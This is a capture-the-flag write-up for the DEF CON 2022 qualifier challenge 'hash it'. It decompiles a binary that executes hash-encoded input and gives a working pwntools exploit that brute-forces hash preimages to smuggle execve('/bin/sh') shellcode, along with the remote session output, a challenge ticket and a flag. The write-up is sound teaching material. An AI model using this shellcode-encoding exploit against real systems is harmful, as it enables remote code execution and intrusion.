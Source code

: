# DEF CON CTF Qualifier 2022

## hash it

[`challenge`](challenge)

Tags: _pwn_ _hash_ _shellcode_ _x86-64_


## Summary

Shellcode runner where each byte is the first digest byte (of one of four popular algorithms) of each pair of hashed bytes, i.e.:

```
shellcode[i] = hash[i & 3](byte[i] << 8 + byte[i+1]).digest[0]
```

## Analysis

### Decompile in Ghidra

```c
undefined4 main(void)
{
  int iVar1;
  void *__src;
  void *__dest;
  code *pcVar2;
  uint uVar3;
  uint uVar4;
  ulong __size;
  undefined local_3d;
  uint local_3c [3];
  
  alarm(10);
  local_3c[0] = 0;
  iVar1 = fread_frontend(stdin,local_3c,4);
  if (iVar1 == 0) {
    local_3c[0] = local_3c[0] >> 0x18 | (local_3c[0] & 0xff0000) >> 8 | (local_3c[0] & 0xff00) << 8 | local_3c[0] << 0x18;
    __size = (ulong)local_3c[0];
    __src = malloc(__size);
    if ((__src != (void *)0x0) && (iVar1 = fread_frontend(stdin,__src,__size), iVar1 == 0)) {
      if (local_3c[0] != 0) {
        uVar3 = 0;
        do {
          uVar4 = uVar3 >> 1;
          iVar1 = FUN_00101320(*(undefined *)((long)__src + (ulong)uVar3),
                               *(undefined *)((long)__src + (ulong)(uVar3 + 1)),&local_3d,
                               (&PTR_EVP_md5_001040a0)[uVar4 & 3]);
          if (iVar1 != 0) {
            return 0xffffffff;
          }
          uVar3 = uVar3 + 2;
          *(undefined *)((long)__src + (ulong)uVar4) = local_3d;
        } while (uVar3 < local_3c[0]);
      }
      __dest = mmap((void *)0x0,(ulong)(local_3c[0] >> 1),7,0x22,-1,0);
      pcVar2 = (code *)memcpy(__dest,__src,(ulong)(local_3c[0] >> 1));
      (*pcVar2)();
      return 0;
    }
  }
  return 0xffffffff;
}
```

The main `do`/`while` loop hashes pairs of chars by calling `FUN_00101320`, and specifying with this table, which hash to use:

```
                             PTR_EVP_md5_001040a0                            XREF[2]:     main:00101181(*), 
                                                                                          main:001011b0(R)  
        001040a0 20 50 10        addr       <EXTERNAL>::EVP_md5                              = ??
                 00 00 00 
                 00 00
                             PTR_EVP_sha1_001040a8                           XREF[1]:     main:001011b0(R)  
        001040a8 60 50 10        addr       <EXTERNAL>::EVP_sha1                             = ??
                 00 00 00 
                 00 00
        001040b0 88 50 10        addr       <EXTERNAL>::EVP_sha256                           = ??
                 00 00 00 
                 00 00
        001040b8 80 50 10        addr       <EXTERNAL>::EVP_sha512                           = ??
                 00 00 00 
                 00 00
```

The first byte of the digest is stored in `local_3d` and that is then used to overwrite our original input:

```
*(undefined *)((long)__src + (ulong)uVar4) = local_3d;
```

At the end of the loop, the decoded input is copied to a newly `mmap`'d space and executed.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *
import hashlib

binary = context.binary = ELF('./hash_it',checksec=False)

shellcode = asm(f'''
lea rdi, [rip+binsh]
xor rsi, rsi
xor rdx, rdx
mov eax, {constants.SYS_execve}
syscall
binsh: .asciz "/bin/sh"
''')

s = b''
for i, c in enumerate(shellcode):
    for j in range(2**16):
        if i & 3 == 0: m = hashlib.md5()
        if i & 3 == 1: m = hashlib.sha1()
        if i & 3 == 2: m = hashlib.sha256()
        if i & 3 == 3: m = hashlib.sha512()
        m.update(p16(j))
        if m.digest()[0] == c:
            s += p16(j)
            break
    else:
        print('failed')
        sys.exit(1)

if args.REMOTE:
    p = remote('hash-it-0-m7tt7b7whagjw.shellweplayaga.me',31337)
    p.sendlineafter(b'Ticket please: ',b'ticket{TackCormorant970n22:7BX7Fil8VnjawYCOu7riER6pzHaYzLr7ZF3DYF8zJOC8Wr9P}')
    sleep(0.2)
else:
    p = process(binary.path)

p.send(p32(len(s))[::-1])
p.send(s)
p.interactive()
```

Above I'm just creating my shellcode, then encoding it by brute searching which pair of bytes will hash producing a first digest byte that matched my assembled shellcode.

That's it.

> I should have mentioned in the analysis section that we have to first send the length as exactly 4 bytes before sending the encoded shellcode.

Output:

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to hash-it-0-m7tt7b7whagjw.shellweplayaga.me on port 31337: Done
[*] Switching to interactive mode
$ cat flag
flag{TackCormorant970n22:GhmoNCJeGsHN8kJ5TE3Jo7GnGV6F21KN2e8hQT2rrUEbPIsOaPrTWQy3CuB2IaUxA-36MthoyBMJy4Z_2Ht4dw}
```
